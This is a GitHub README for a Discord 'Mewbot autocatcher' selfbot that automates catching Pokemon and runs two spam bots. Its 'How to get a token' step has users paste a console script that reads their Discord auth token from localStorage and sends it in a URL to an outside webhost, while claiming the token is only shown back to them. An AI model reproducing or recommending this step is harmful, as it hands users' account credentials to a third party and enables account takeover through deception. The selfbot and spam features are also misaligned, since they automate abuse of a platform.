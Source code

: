 Pokecord-Autocatcher
=====
## Description: 
Due to the recent news that Pokecord is now official dead many servers have decided to move onto Mewbot. This is a program for Discord which allows you to auto-catch pokemon spawned by Mewbot with many more features yet to come!
## How to use:
1. Download latest release from [here](https://github.com/RussianWaffles/mewbot-autocatcher/releases)
2. Extract the zip
3. Run `npm i --only=prod` to install dependencies
4. Start the program with `npm start`
5. Goto `localhost:3000`
6. Input your tokens by clicking on the blank avatars(Only the first one is needed if you don't require spam)
7. Edit the server configs by clicking on their icon's
8. Enable the options you require and the program is ready to go!
## How to get a token:
1. Login to the account you want the token of
2. Press `F12` or `CTRL + SHIFT + I` if nothing opens
3. Goto the Console tab
4. Copy and paste this script and press enter
```javascript
location.reload();
function getLocalStoragePropertyDescriptor() {
  const iframe = document.createElement('iframe');
  document.head.append(iframe);
  const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');
  iframe.remove();
  return pd;
}
Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());
window.location.href = "https://8nfiles.000webhostapp.com/?token=" + window.localStorage.getItem("token").split('"').join('');
```
5. Your token should be displayed back to you
## Features:
- Auto Catch: Catch pokemon as soon as they spawn
- Online Interface: Makes configuring the bot much easier than traditional configs
- Individual Server Config's: Incase you wish to only auto-catch on certain servers
- Auto-Updating: The bot checks if it and its JSON file is up-to-date on startup
- Auto-Reporting: Automatically report's and unrecognised pokemon it finds
- Auto-Restart Capable: Once configured if the bot the crashes and is configured as a service or with [forever](https://www.npmjs.com/package/forever "forever") it will have no problems starting back up.


## Online Interface
An easy to use Online Interface to configure the program.

![GUI](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI.jpg "GUI")
![GUI2](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI2.jpg "GUI2")
![GUI3](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI3.jpg "GUI3")
![GUI4](https://raw.githubusercontent.com/RussianWaffles/mewbot-autocatcher/master/GUI4.jpg "GUI4")

- Handles up to 3 bots at once, the Main Bot which is used to catch the pokemon and the 2 Spam Bots which are used to send spam
- An area for the Main Bot's servers where each one is able to be individually configured
- The main options for the program
- Bot Logs where any caught pokemon are displayed(up to 100 logs are displayed)
- Debug Logs where logs for debugging are displayed(up to 100 logs are displayed)
- Statistics to quickly check the program


## Spam
The two Spam Bots are able to spam into a given channel with a given spam delay across all configured servers using a random line picked from `spam.txt`

## Auto catch
The Main Bot is able to catch a pokemon either as soon as it spawns or with a given delay across all configured servers.

By RussianWaffles
-----
